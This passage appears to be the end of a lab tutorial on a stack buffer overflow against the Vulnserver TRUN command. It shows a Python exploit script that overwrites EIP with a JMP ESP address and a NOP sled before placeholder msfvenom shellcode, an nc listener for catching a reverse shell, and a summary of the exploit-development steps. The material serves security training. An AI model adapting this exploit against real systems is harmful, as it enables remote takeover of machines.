 ### Incorporate Shellcode into the Final Exploit (`6.py`)

```python
#!/usr/bin/python
import sys, socket

# Padding: 2003 bytes to reach EIP
# Overwrite EIP with the JMP ESP address: \xaf\x11\x50\x62
# NOP sled: 32 bytes (no-operation, to help slide into the shellcode)
# Shellcode: (generated by msfvenom, paste your payload here)
shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + \
("<your msfvenom-generated shellcode here>")

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.1.90', 9999))
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print("Error connecting to server")
    sys.exit()
```

### Gaining the Shell

#### Listener
On your attacking machine, open a terminal and start a listener:

```bash
nc -nvlp 4444
```

#### Execute Exploit
Run your Python script (e.g., `./6.py`). If successful, the shellcode will execute on the target, and you’ll receive a reverse shell.

---

## Summary

- **Spiking & Fuzzing:** Find the approximate size needed to crash the application.
- **Finding the Offset:** Use unique cyclic patterns to determine where the EIP is overwritten.
- **Overwriting the EIP:** Confirm control over the EIP with a controlled 4-byte value.
- **Bad Characters:** Identify which bytes cannot be used in your shellcode by comparing your sent pattern with a memory dump in a debugger.
- **Module Selection & JMP ESP:** Use tools like `Mona.py` to find a module (e.g., `essfunc.dll`) with a predictable address and search for the `JMP ESP` opcode (`\xff\xe4`).
- **Shellcode Generation:** Use `msfvenom` to create shellcode that avoids bad characters.
- **Exploitation:** Combine your findings into a final payload that overwrites the EIP, jumps to a NOP sled and your shellcode, and (via a remote connection) gives you control over the target.

---
